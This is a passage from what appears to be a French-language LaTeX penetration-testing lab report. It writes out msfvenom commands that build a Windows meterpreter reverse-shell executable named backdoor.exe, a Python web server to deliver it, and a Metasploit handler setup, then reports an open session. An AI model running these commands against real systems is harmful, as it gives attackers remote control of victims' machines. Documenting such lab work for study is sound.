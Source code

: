 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{enumerate}
\begin{itemize}
                \item \texttt{\footnotesize ./backdoor.exe}
            \end{itemize}
            \item Commandes utilisées sur le deuxième terminal:
            \begin{itemize}
                \item \texttt{\footnotesize msfvenom -p windows/x64/meterpreter/reverse\_tcp -f exe} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.exe}
                \item \texttt{\footnotesize sudo python3 -m http.server 80}
            \end{itemize}
            \item Commandes utilisées sur le troisième terminal:
            \begin{itemize}
                \item \texttt{\footnotesize use multi/handler}
                \item \texttt{\footnotesize set payload windows/x64/meterpreter/reverse\_tcp}
                \item \texttt{\footnotesize set LHOST 192.168.1.3}
                \item \texttt{\footnotesize set LPORT 4444}
                \item \texttt{\footnotesize run}
            \end{itemize}
        \end{enumerate}
        Et enfin, j'ai \textcolor{blue}{\textbf{réussi}} à établir une session meterpreter (voir figure \ref{fig:successSSH}) !
    \end{example}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.95\linewidth]{images/success-ssh.PNG}
        \caption{Création d'une session meterpreter avec le service SSH}
        \label{fig:successSSH}
    \end{figure}
\end{enumerate}
\textbf{Remarque}: je couvre le maintien de session plus en détail dans la section sur la post-exploitation.
\end{document}
